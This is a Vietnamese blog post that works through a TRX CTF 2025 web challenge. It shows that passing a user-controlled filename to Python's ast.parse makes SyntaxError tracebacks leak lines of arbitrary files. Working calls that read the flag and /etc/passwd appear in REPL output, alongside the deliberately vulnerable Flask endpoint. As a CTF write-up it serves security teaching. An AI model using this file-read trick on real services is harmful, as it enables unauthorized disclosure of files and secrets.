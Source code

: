 title: Đọc file tùy ý với ast.parse
date: 2025-02-26
tags: ast, Python, security,
category: pymi.vn
slug: ast_parse
authors: Pymier0
description: ast.parse chỉ parse code thành AST, liệu có đọc được file?

Bài trước [biến nhỏ hơn thành lớn hơn với ast]({filename}/ast_intro.md) giới thiệu sử dụng AST để biến code thành tree, giúp xử lý code theo kiến trúc (thay vì text).

Bài viết này có liên quan tới module `ast`, nhưng trong một hoàn cảnh khác... liên quan tới bảo mật.

### Đề bài - web TRX CTF 2025
Giải [TRX CTF 2025](https://ctftime.org/event/2654) có đề bài cho 1 trang web như sau:

```py
import ast
import traceback
from flask import Flask, render_template, request

app = Flask(__name__)

@app.get("/")
def home():
    return render_template("index.html")

@app.post("/check")
def check():
    try:
        ast.parse(**request.json)
        return {"status": True, "error": None}
    except Exception:
        return {"status": False, "error": traceback.format_exc()}

if __name__ == '__main__':
    app.run(debug=True)
```

một website flask đơn giản, nhận đầu vào tùy ý của người dùng và chạy `ast.parse`.
Một file `secret.py` nằm cùng thư mục, chứa flag

```py
    
def main():
    print("Here's the flag: ")
    print(FLAG)

FLAG = "TRX{fake_flag_for_testing}"

main()
```

Mục tiêu là đọc giá trị của `FLAG`.

### Đọc tài liệu ast.parse

```
Python 3.10.12 (main, Feb  4 2025, 14:57:36) [GCC 11.4.0] on linux
>>> import ast
>>> print(ast.parse.__doc__)

Parse the source into an AST node.
Equivalent to compile(source, filename, mode, PyCF_ONLY_AST).
Pass type_comments=True to get back type comments where the syntax allows.
```


Tài liệu không ghi gì hơn là đá sang đọc doc của builtin function compile:

```py
>>> print(compile.__doc__)
Compile source into a code object that can be executed by exec() or eval().

The source code may represent a Python module, statement or expression.
The filename will be used for run-time error messages.
The mode must be 'exec' to compile a module, 'single' to compile a
single (interactive) statement, or 'eval' to compile an expression.
The flags argument, if present, controls which future statements influence
the compilation of the code.
The dont_inherit argument, if true, stops the compilation inheriting
the effects of any future statements in effect in the code calling
compile; if absent or false these statements do influence the compilation,
in addition to any features explicitly specified.
```

**The source code may represent a Python module, statement or expression.  The filename will be used for run-time error messages.**

filename được dùng cho run-time error messages, nhưng không rõ ràng là dùng thế nào.
Trên doc trang chủ:

```
ast.parse(source, filename='<unknown>', mode='exec', *, type_comments=False, feature_version=None)¶
```
filename mặc định có giá trị là `<unknown>`.
Thử vài ví dụ:

```py
>>> ast.parse(open(ast.__file__).read(), '<unknown>')
<ast.Module object at 0x752c51f9d7e0>
>>> ast.parse('for i in range(10):\n    print(i)', '<unknown>')
<ast.Module object at 0x752c520ebcd0>
>>> ast.parse('for i in range(10):\n    print(i', '<unknown>')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "<unknown>", line 2
    print(i
         ^
SyntaxError: '(' was never closed
```
có thể thấy khi có SyntaxError, màn hình sẽ hiện ra dòng code bị lỗi syntax, và file `<unknown>` không đóng vai trò gì cả.

Nhưng khi gán filename="secret.py", dòng số 2 của file này lại hiện ra:

```py
>>> ast.parse("for i in range(10):\n    print(i", "secret.py")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "secret.py", line 2
    def main():
             ^
SyntaxError: '(' was never closed
```
đề bài khá "lươn" vì viết code từ dòng thứ 2, nếu người dùng thử với `source='def'` thì sẽ không hiện ra gì.
Vậy chỉ cần viết code xuống đến dòng thứ 6 rồi viết syntax error sẽ hiện ra FLAG:

```py
>>> ast.parse("\n\n\n\n\ndef", "secret.py")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "secret.py", line 6
    FLAG = "TRX{fake_flag_for_testing}"
       ^
SyntaxError: invalid syntax
```

Thậm chí có thể đọc file tùy ý, không cần phải code python:
```py
>>> ast.parse("def", "/etc/passwd")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "/etc/passwd", line 1
    root:x:0:0:root:/root:/bin/bash
       ^
SyntaxError: invalid syntax
```

Đọc code CPython, lần theo function [compile](https://github.com/python/cpython/blob/43a2a372ba071c4ebb1071240da2b852c29d77fb/Python/bltinmodule.c#L759-L855) sẽ tháy

```
PyObject *
_PyErr_ProgramDecodedTextObject(PyObject *filename, int lineno, const char* encoding)
{
...
    FILE *fp = _Py_fopen_obj(filename, "r" PY_STDIOTEXTMODE);
```
trong [errors.c](https://github.com/python/cpython/blob/43a2a372ba071c4ebb1071240da2b852c29d77fb/Python/errors.c#L1946)

Xem write up & source at <https://github.com/TheRomanXpl0it/TRX-CTF-2025/blob/main/web/online-python-editor/remote/app/app.py>
### Góc AI
Vác luôn đề hỏi các AI xịn nhất ngày nay xem:

[Claude.ai](https://claude.ai/chat/553d2e6f-62f4-4048-8480-f2e1367426f6)

> Given the code shown, I don't see a direct path to reading the FLAG from secret.py through the ast.parse() function alone. The function's parameters don't provide functionality to import or read other files in a way that would return their contents through the error messages.

sau một hồi đoán mò lung tung đủ thứ. ChatGPT 4o-mini dù phát hiện đoạn code có thể bị DOS attack, nhưng cũng nhầm lẫn tương tự và không thể tìm được cách tấn công.

Chờ bạn đọc chăm chỉ test với DeepSeek R1.

### Kết luận
`ast.parse` có thể đọc file tùy ý.

Hết.

HVN at <http://pymi.vn> and <https://www.familug.org>.

[Ủng hộ tác giả 🍺](https://www.familug.org/p/ung-ho.html)
